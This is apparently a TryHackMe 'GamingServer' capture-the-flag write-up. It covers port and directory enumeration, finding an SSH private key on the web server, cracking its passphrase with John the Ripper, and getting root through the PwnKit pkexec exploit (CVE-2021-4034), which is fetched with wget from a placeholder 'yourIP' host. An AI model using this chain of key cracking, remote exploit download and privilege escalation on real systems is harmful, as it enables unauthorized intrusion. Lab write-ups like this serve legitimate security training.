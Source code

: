 ## 👾GamingServer👾
https://tryhackme.com/room/gamingserver

### 👾Enum
```
nmap -Pn -sC -sV -sT 10.10.146.216 -A -p- -vv
```
```
Discovered open port 80/tcp on 10.10.146.216
Discovered open port 22/tcp on 10.10.146.216
```
ちなスキャン終わらず（フレッツ光クロスはよ～）
```
curl http://10.10.146.216/
```
```
<!DOCTYPE html>
<!-- Website template by freewebsitetemplates.com -->
<head>
        <title>House of danak</title>
        <meta  charset="utf-8">
        <link href="style.css" rel="stylesheet" type="text/css">
</head>
<body>
                                <li class="last">
                                        <a href="#" class="archives">&nbsp;</a>
                                </li>
                        </ul>
                </div>
        </div>
</body>
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->
</html>
```
👾 Username??? john

```
ffuf -u http://10.10.146.216/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -r
```
```
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 4148ms]
.hta                    [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5346ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6441ms]
index.html              [Status: 200, Size: 2762, Words: 241, Lines: 78, Duration: 317ms]
robots.txt              [Status: 200, Size: 33, Words: 3, Lines: 4, Duration: 319ms]
secret                  [Status: 200, Size: 941, Words: 64, Lines: 17, Duration: 312ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 312ms]
uploads                 [Status: 200, Size: 1341, Words: 83, Lines: 19, Duration: 373ms]
:: Progress: [4712/4712] :: Job [1/1] :: 120 req/sec :: Duration: [0:00:43] :: Errors: 0 ::
```
👾 Yummy,do always? Mumumu,itumonoka?

![image](https://user-images.githubusercontent.com/6504854/183280365-fb059090-4a5f-44ef-99db-b91571044faa.png)

![image](https://user-images.githubusercontent.com/6504854/183280392-f50f6fab-1890-4a5b-881b-1d641b66c2ea.png)

![image](https://user-images.githubusercontent.com/6504854/183280409-884b4e59-09a4-422d-887d-b83fe85ff00b.png)

![image](https://user-images.githubusercontent.com/6504854/183280424-4005efc4-af53-452f-a6bb-10b977d82e09.png)

![image](https://user-images.githubusercontent.com/6504854/183280436-e5d7c0f1-c790-441e-92e9-c2a4707415e3.png)

![image](https://user-images.githubusercontent.com/6504854/183280447-d2a3ccb5-8f8d-4fcc-8030-f8c5d7d37f48.png)

👾 I got username and ssh key file

```
vi id_rsa
chmod 600 id_rsa
ssh 10.10.146.216 -i id_rsa
```
```
Enter passphrase for key 'id_rsa':
```
😢

```
ssh2john id_rsa > id_rsa.hash
jhon id_rsa.hash -w=dict.list
```
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
l******          (id_rsa)
1g 0:00:00:00 DONE (2022-08-07 15:51) 33.33g/s 7400p/s 7400c/s 7400C/s 2003..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

### 👾Flag
```
ssh -i id_rsa john@10.10.146.216
```
```
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

j***@exploitable:~$ cat user.txt

j***@exploitable:~$ sudo -l
[sudo] password for j***:
```

```
j***@exploitable:~$ ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 22520 Mar 27  2019 /usr/bin/pkexec
```
🤓

```
j***@exploitable:~$ wget http://yourIP/1.tar
Saving to: ‘1.tar’

1.tar                    100%[=================================>]  90.00K  55.2KB/s    in 1.6s

2022-08-07 07:08:39 (55.2 KB/s) - ‘1.tar’ saved [92160/92160]

j***@exploitable:~$ tar -xvf 1.tar
./cve-2021-4034
./cve-2021-4034.c
./cve-2021-4034.sh
./dry-run/
./README.md

j***@exploitable:~$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd),1000(john)
# cat /root/root.txt
```

Thank you for your time. Happy hacking 👾👾👾

スベスベマンジュウガニ食べたら死ぬらしい

のらの蟹は食べちゃダメ


